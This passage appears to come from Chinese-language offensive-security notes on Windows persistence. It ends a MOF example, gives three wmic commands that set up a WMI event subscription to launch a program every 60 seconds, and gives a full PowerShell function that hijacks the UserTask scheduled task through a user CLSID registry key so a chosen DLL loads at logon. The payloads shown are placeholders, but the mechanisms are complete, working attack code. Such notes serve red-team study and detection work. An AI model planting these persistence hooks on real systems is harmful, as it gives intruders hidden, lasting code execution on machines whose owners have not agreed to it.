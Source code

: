 ```ABAP
Consumer = $Consumer;
Filter = $EventFilter;
};
```

管理员执行：

```
mofcomp test.mof
```

##### 13、[wmi](https://3gstudent.github.io/Study-Notes-of-WMI-Persistence-using-wmic.exe)

每隔60秒执行一次notepad.exe

```ABAP
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="BotFilter82", EventNameSpace="root\cimv2",QueryLanguage="WQL", Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"

wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="BotConsumer23", ExecutablePath="C:\Windows\System32\notepad.exe",CommandLineTemplate="C:\Windows\System32\notepad.exe"

wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name=\"BotFilter82\"", Consumer="CommandLineEventConsumer.Name=\"BotConsumer23\""
```

##### 14、[Userland Persistence With Scheduled Tasks](https://3gstudent.github.io/Userland-registry-hijacking)

劫持计划任务UserTask，在系统启动时加载dll

```c#
function Invoke-ScheduledTaskComHandlerUserTask
{
[CmdletBinding(SupportsShouldProcess = $True, ConfirmImpact = 'Medium')]
Param (
[Parameter(Mandatory = $True)]
[ValidateNotNullOrEmpty()]
[String]
$Command,

[Switch]
$Force
)
$ScheduledTaskCommandPath = "HKCU:\Software\Classes\CLSID\{58fb76b9-ac85-4e55-ac04-427593b1d060}\InprocServer32"
if ($Force -or ((Get-ItemProperty -Path $ScheduledTaskCommandPath -Name '(default)' -ErrorAction SilentlyContinue) -eq $null)){
New-Item $ScheduledTaskCommandPath -Force |
New-ItemProperty -Name '(Default)' -Value $Command -PropertyType string -Force | Out-Null
}else{
Write-Verbose "Key already exists, consider using -Force"
exit
}

if (Test-Path $ScheduledTaskCommandPath) {
Write-Verbose "Created registry entries to hijack the UserTask"
}else{
Write-Warning "Failed to create registry key, exiting"
exit
} 
}
Invoke-ScheduledTaskComHandlerUserTask -Command "C:\test\testmsg.dll" -Verbose
```
